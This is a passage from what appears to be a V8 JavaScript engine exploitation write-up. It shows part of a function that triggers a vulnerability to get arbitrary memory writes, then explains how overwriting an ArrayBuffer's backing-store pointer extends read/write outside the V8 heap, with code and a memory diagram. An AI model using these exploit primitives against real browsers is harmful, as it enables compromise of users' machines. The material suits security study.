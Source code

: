 ```js
    }
    
    // trigger the vuln
    tmp_arr = t.slice(0)

    // set elem ptr to desired address
    tmp_arr[2] = itof(addr)

    // set addr to desired value
    tmp_arr[0] = itof(val)
}
```
<br>
<br>

### --[ - Arbitrary r/w (mostly w) outside the v8 heap

To achieve r/w outside the v8 heap, we can use [typed arrays](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/TypedArray)
<br>
```js
var buf = new ArrayBuffer(0x100)
var uint8_arr = new Uint8Array(buf)
```

Here `buf` is another object within the v8 heap (and thus in scope of our
existing r/w functions). However its backing store (the place where the 
`uint8_arr` will store its elements) will exist outside the v8 heap
(this it will be identified by an 'absolute' 64bit pointer).
<br>

```
                v8 heap                          'actual' heap
        +----------------------------+        +---------------------+
        |                            |        |                     |
        |  buf    +--------------+   |      +-->                    |
        |         |              |   |      | |                     |
        |         |   . . .      |   |      | |                     |
        |         |              |   |      | +---------------------+
        |         |              |   |      |
        |         +--------------+   |      |
        |         |  backing     |   |      |
        |         |  store ptr   +----------+
        |         +--------------+   |
        +----------------------------+

```
<br>

Luckily this absolute backing store pointer exists at a constant offset
within `buf`, so if we know the address of `buf` in the v8 heap we can use
our existing r/w primitives to modify the backing store pointer.
